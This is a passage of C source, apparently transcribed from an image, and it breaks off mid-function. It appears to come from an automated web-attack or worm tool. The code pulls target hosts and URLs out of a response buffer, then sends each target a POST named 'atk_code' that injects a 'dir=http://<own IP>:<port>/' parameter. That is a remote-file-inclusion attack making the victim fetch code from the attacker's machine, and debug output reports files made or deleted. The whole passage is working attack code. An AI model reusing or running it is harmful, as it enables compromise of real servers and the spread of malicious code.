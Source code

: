        memset((char *)host,0,sizeof(host));
       memset((char *)url,0,sizeof(url));

       chk=(SCS);

       if(strstr(test_bf,search_va[tnum].http_head))
       {
        t_ptr=(char *)strstr(test_bf,search_va[tnum].http_head) + strlen(search_va[tnum].http_head);
        port=(CONN_PORT);

        for(whgl=0;whgl<strlen(t_ptr)+1;whgl++)
        {
         if(t_ptr[whgl]=='/')
         {
          for(gogo=0;whgl<strlen(t_ptr);whgl++)
           url[gogo++]=t_ptr[whgl];
          strcat(url,__tg_rule_va[tgrl_sl].url_str);
          break;
         }
         else if(t_ptr[whgl]=='\0')
         {
          strncpy(url,__tg_rule_va[tgrl_sl].url_str,sizeof(url)-1);
          break;
         }
         else if(t_ptr[whgl]==':')
         {
          port_ptr=(char *)strstr(t_ptr,":")+1;
          port=atoi(port_ptr);
         }
         else host[chk++]=t_ptr[whgl];
        }
#ifdef DEBUG_ING
        fprintf(stdout,"Total:%s,URL:%s,HOST:%s,PORT:%d\n",test_bf,url,host,port);
#endif
ok:
        sock=set_sock(host,port,0);
        if(sock==-1)
         continue;
        else {
         memset((char *)ip,0,sizeof(ip));
         memset((char *)atk_code,0,sizeof(atk_code));
         memset((char *)pkt,0,sizeof(pkt));

         (int)g_ip(ip);
         snprintf(atk_code,sizeof(atk_code)-1,"dir=http://%s:%d/\r\n",ip,def_port);
         snprintf(pkt,sizeof(pkt)-1,
          "POST http://%s%s HTTP/1.0\r\n"
          "Content-Type: application/x-www-form-urlencoded\r\n"
          "Content-Length: %d\r\n"
          "Host: %s\r\n\r\n%s\r\n",host,url,strlen(atk_code),host,atk_code);
         send(sock,pkt,strlen(pkt),0);
         memset((char *)pkt,0,sizeof(pkt));
         recv(sock,pkt,sizeof(pkt)-1,0);
#ifdef DEBUG_ING
         if(strstr(pkt,RESULT_OK))
         {
          if(strstr(pkt,MAKE_STR1))
           fprintf(stdout,"%s\n",MAKE_STR1);
          if(strstr(pkt,MAKE_STR2))
           fprintf(stdout,"%s\n",MAKE_STR2);
          if(strstr(pkt,DELT_STR1))
           fprintf(stdout,"%s\n",DELT_STR1);
          if(strstr(pkt,DELT_STR2))
           fprintf(stdout,"%s\n",DELT_STR2);
          printf("%s: %s\n",RESULT_OK,host);